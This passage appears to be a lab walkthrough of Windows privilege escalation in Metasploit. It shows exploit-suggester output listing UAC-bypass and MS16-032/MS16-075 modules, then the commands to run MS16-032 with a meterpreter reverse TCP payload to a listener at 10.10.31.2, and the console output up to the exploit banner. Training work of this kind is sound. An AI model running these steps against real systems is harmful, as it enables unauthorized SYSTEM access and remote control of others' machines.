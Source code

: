 ```bash
 #   Name                                                           Disclosure Date  Rank       Check  Description
 ---  ----                                                           ---------------  ----       -----  -----------
 0   exploit/windows/local/bypassuac_eventvwr                       2016-08-15       excellent  Yes    Windows Escalate UAC Protection Bypass (Via Eventvwr Registry Key)
 1   exploit/windows/local/bypassuac_fodhelper                      2017-05-12       excellent  Yes    Windows UAC Protection Bypass (Via FodHelper Registry Key)
 2   exploit/windows/local/bypassuac_sluihijack                     2018-01-15       excellent  Yes    Windows UAC Protection Bypass (Via Slui File Handler Hijack)
 3   exploit/windows/local/ms16_032_secondary_logon_handle_privesc   2016-03-21       excellent  Yes    MS16-032 Secondary Logon Handle Privilege Escalation
 4   exploit/windows/local/ms16_075_reflection                      2016-06-14       excellent  Yes    MS16-075 Reflection RPC Handle Privilege Escalation

[*] Post module execution completed
```

#### **🎯 Fantastic Results! What We Discovered:**
- **5 Different Exploits Found** - Multiple escalation paths available
- **All Ranked Excellent** - High success probability
- **UAC Bypass Options** - 3 different UAC bypass methods
- **Kernel Exploits** - MS16-032 and MS16-075 privilege escalation
- **Multiple Attack Vectors** - Various approaches to choose from

---

### **Step 2: Execute MS16-032 Privilege Escalation**

**What We're Doing:** Using a Windows kernel exploit to gain SYSTEM privileges

#### **Commands Used:**
```bash
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION 1  
set LHOST 10.10.31.2
exploit
```

#### **What Happened:**
```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST 10.10.31.2
LHOST => 10.10.31.2
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > exploit

[*] Started reverse TCP handler on 10.10.31.2:4444
[+] Compressed size: 1012
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\user1\AppData\Local\Temp\MvKdxlEUN.ps1...
[*] Compressing script contents...
[+] Compressed size: 3592
[*] Executing exploit script...
     __ __ ___ ___   ___     ___ ___ ___
    |  V  |  _|_  |_|   |___|   |_  |_  |
    |     |_  |_| . |   |   |   |_| |___|
    |_|_|_|___|_____|___|   |___|___|___|

                   [by b33f -> @FuzzySec]

```
